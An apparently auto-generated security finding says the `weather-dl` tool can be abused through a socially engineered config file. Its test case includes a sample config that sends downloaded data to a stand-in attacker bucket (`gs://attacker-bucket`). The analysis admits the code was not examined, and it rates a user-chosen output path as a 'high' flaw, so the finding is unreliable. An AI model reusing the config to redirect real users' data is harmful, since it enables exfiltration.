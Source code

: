 - vulnerability name: Malicious Configuration File Usage in `weather-dl`
- description: An attacker could attempt to socially engineer a user into using a malicious configuration file with the `weather-dl` tool. This malicious configuration file could be crafted to modify the destination where `weather-dl` saves the downloaded weather data. By changing the output path in the configuration file, an attacker can redirect the downloaded data to a destination they control, such as a cloud storage bucket owned by the attacker.
  To trigger this vulnerability:
    1. An attacker creates a malicious configuration file (e.g., `malicious_weather_config.cfg`) that is syntactically valid for `weather-dl`.
    2. In this malicious configuration file, the attacker modifies the `target_path` parameter within the `[parameters]` section to point to a cloud storage bucket or any other accessible storage location that is controlled by the attacker, instead of a legitimate or user-intended destination.
    3. The attacker uses social engineering techniques (e.g., phishing, posing as a trusted source, or exploiting user trust) to convince a legitimate user of `weather-tools` to use this `malicious_weather_config.cfg` file with the `weather-dl` command.
    4. The unsuspecting user, believing the file to be legitimate or not understanding the security implications, executes the `weather-dl` tool using the attacker-supplied configuration file: `weather-dl malicious_weather_config.cfg`.
    5. `weather-dl`, as designed, reads the configuration from `malicious_weather_config.cfg`, including the attacker-specified `target_path`.
    6. The tool proceeds to download the requested weather data from the configured source (e.g., ECMWF).
    7. Instead of saving the downloaded weather data to the user's intended secure location, `weather-dl`, as instructed by the malicious configuration, saves the data to the attacker-controlled destination specified in `target_path`.
    8. The attacker can then access the exfiltrated weather data from their controlled destination, completing the data exfiltration.
- impact: Data exfiltration. If successful, the attacker gains unauthorized access to potentially sensitive weather data downloaded by the user. This data can then be used for malicious purposes, depending on the attacker's objectives and the nature of the data. The impact is considered High as it directly leads to data loss and potential compromise of research or operational data.
- vulnerability rank: high
- currently implemented mitigations: The project's README mentions that "Downloads are driven from a configuration file, which can be reviewed (and version-controlled) independently of pipeline or analysis code." This serves as a weak form of mitigation, relying on the user to manually review and verify the configuration file's contents before use. This mitigation is documented in the main README file (`/code/README.md`) under the "Introduction" and "NOTE" sections in the "Steps" part of the Quickstart guide. However, it's not a technical mitigation implemented within the code itself, but rather a recommendation for users.
- missing mitigations:
    - Input validation: Implement robust validation checks within the `weather-dl` tool to verify the `target_path` in the configuration file. This validation should ensure that the destination path is within expected or user-approved locations and conforms to security policies.
    - User warnings: Enhance the `weather-dl` tool to display clear and prominent warnings to the user when a configuration file from an untrusted source is used. The warning should explicitly mention the risks of data exfiltration and recommend reviewing the configuration file, especially the output destination.
    - Destination restrictions: Implement options to restrict or pre-configure allowed destination paths or storage locations for downloaded data, preventing users (or attackers via malicious configs) from redirecting data to arbitrary external locations.
    - Signed configurations: Explore the possibility of using signed configuration files to ensure their authenticity and integrity, making it harder for attackers to distribute modified malicious versions.
- preconditions:
    - The attacker needs to create a malicious `weather-dl` configuration file.
    - The attacker must successfully socially engineer a user into using this malicious configuration file when running the `weather-dl` tool.
    - The user must have the necessary permissions and access to run `weather-dl` and download weather data.
- source code analysis: Based on the provided documentation, specifically the `README.md` and documentation files, the `weather-dl` tool uses configuration files ( `.cfg` or `.json`) to define download parameters, including the `target_path`. The tool, as described, processes this configuration file and uses the provided `target_path` to save downloaded data. There is no visible input validation or security checks on the `target_path` within the provided documentation or code snippets.

  ```
  File: /code/README.md

  ...
  Downloads are driven from a
  [configuration file](Configuration.md), which can be reviewed (and version-controlled) independently of pipeline or
  analysis code.
  ...
  **NOTE:** By default, local downloads are saved to the `./local_run` directory unless another file system is specified.
  The recommended output location for `weather-dl` is [Cloud Storage](https://cloud.google.com/storage).
  The source and destination of the download are configured using the `.cfg` configuration file which is passed to the command.
  ...
  ```

  The documentation highlights that the configuration file dictates the destination, and users are advised to review it. However, the code itself (which is not provided) likely parses the `target_path` from the configuration and uses it directly in file operations without further validation. This behavior allows an attacker to manipulate the destination by providing a crafted configuration file.

  [Diagram: Simplified data flow for weather-dl with malicious config]

  ```mermaid
  graph LR
      A[User executes weather-dl with malicious config] --> B{weather-dl tool};
      B --> C(Read malicious_config.cfg);
      C --> D{Extract target_path from config};
      D --> E[Download weather data];
      E --> F[Save data to target_path (attacker-controlled destination)];
      F --> G[Data exfiltration successful];
  ```

- security test case:
    1. Create a malicious configuration file named `malicious_config.cfg` with the following content. Replace `gs://attacker-bucket/exfiltrated_data` with a Google Cloud Storage bucket you control for testing purposes.
    ```cfg
    [parameters]
    client=cds
    dataset=reanalysis-era5-pressure-levels
    target_path=gs://attacker-bucket/exfiltrated_data/era5_data.nc
    partition_keys=year

    [selection]
    product_type=reanalysis
    format=netcdf
    variable=temperature
    pressure_level=850
    year=2023
    month=08
    day=01
    time=12:00
    ```
    2. Assume you are a user and have been socially engineered to use this configuration file. Execute the `weather-dl` tool using the malicious configuration:
    ```bash
    weather-dl malicious_config.cfg --local-run
    ```
    3. After the command execution completes, navigate to the attacker-controlled Google Cloud Storage bucket (`gs://attacker-bucket/exfiltrated_data/`) using the Google Cloud Console or `gsutil` command-line tool.
    4. Verify that the downloaded weather data file (`era5_data.nc`) is present in the `gs://attacker-bucket/exfiltrated_data/` bucket. This confirms that the data has been exfiltrated to the attacker-controlled destination, demonstrating the vulnerability.